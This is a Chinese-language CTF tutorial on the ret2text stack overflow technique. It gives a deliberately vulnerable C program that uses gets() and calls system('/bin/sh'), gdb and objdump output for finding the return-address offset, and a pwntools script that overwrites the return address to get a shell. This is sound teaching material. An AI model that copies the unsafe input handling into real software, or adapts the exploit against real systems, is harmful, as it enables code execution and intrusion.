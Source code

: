 ```yaml
---
title: ret2text攻击技术示例
tags: [CTF, pwn, rop]
layout: post
categories: tutorials
---
```


## 什么是ret2text？

ret2text是指return to text，意思就是通过向缓冲区填入过多的数据，导致缓冲区溢出，覆盖了返回地址(return address)，返回到程序某处可以被利用的代码后，达成相应的目的，也就是获取了程序中任意地址处代码执行的能力。

ret2text是最简单的栈溢出漏洞利用技术，不需要太多的技术基础就可以进行利用。

## ret2text示例代码

``` c
//gcc -m32 -fno-stack-protector ret2text.c -o ret2text
#include <stdio.h>
#include <stdlib.h>
#include <time.h>

void secure(void)
{
    int secretcode, input;
    srand(time(NULL));
    secretcode = rand();
    scanf("%d", &input);
    if(input == secretcode)
        system("/bin/sh"); /* [1] */

}

int main(void)
{
    setvbuf(stdout, 0LL, 2, 0LL);
    setvbuf(stdin, 0LL, 1, 0LL);

    char buf[100];

    printf("There is something amazing here, do you know anything?\n");
    gets(buf); /* [2]  */
    printf("Maybe I will tell you next time !");

    return 0;

}
```

本节示例的漏洞程序也可以从该处下载：[ret2text](http://od7mpc53s.bkt.clouddn.com/ret2text)

## 漏洞分析

main函数里使用了不安全的gets()函数，因为没有对输入字符长度进行检查，所以会导致缓冲区溢出。我们的思路就是输入过长的数据，使buf溢出，覆盖了gets()函数的返回地址，并在返回地址处修改为system("/bin/sh")代码处的地址，这样当main函数返回，程序就会跳转到system("/bin/sh")处获取一个shell，从而完成攻击。

我们用gdb挂起程序，逐步调试。

``` asm
    0x804869b <main+83>:	mov    DWORD PTR [esp],0x804876c
    0x80486a2 <main+90>:	call   0x8048480 <puts@plt>
    0x80486a7 <main+95>:	lea    eax,[esp+0x1c]
=>  0x80486ab <main+99>:	mov    DWORD PTR [esp],eax
    0x80486ae <main+102>:	call   0x8048460 <gets@plt>
    0x80486b3 <main+107>:	mov    DWORD PTR [esp],0x80487a4
    0x80486ba <main+114>:	call   0x8048450 <printf@plt>
    0x80486bf <main+119>:	mov    eax,0x0
```
执行到0x80486a7处，使用eax存储了buf的首地址，之后在0x80486ab处将eax的值压入栈中，这里我们查看eax寄存器的值为*0xffffcd1c*。同时我们观察，此时buf首地址处于栈顶，那我们来查看以下ebp寄存器的值，值为*0xffffcd88*，而ebp再下面即是返回地址，因此我们可以得出从buf首地址到返回地址之间的距离为
``` python
0xffffcd88 - 0xffffcd1c + 0x04 = 0x70
```
同时我们需要查看 *system("/bin/sh")*的地址
``` bash
objdump -d ret2text
```
找到system()调用的代码处

``` asm
804863a:	c7 04 24 63 87 04 08 	movl   $0x8048763,(%esp)
8048641:	e8 4a fe ff ff       	call   8048490 <system@plt>
```
我们只要将返回地址覆盖为*0x804863a*便可获取一个shell

## 攻击代码

``` python
from pwn import *

system_addr = 0x804863a
payload = ''
payload += 'A' * (0xffffcd88 - 0xffffcd1c + 0x04 )
payload += p32(system_addr)

io = process('ret2text')
io.sendline(payload)
io.interactive()
```
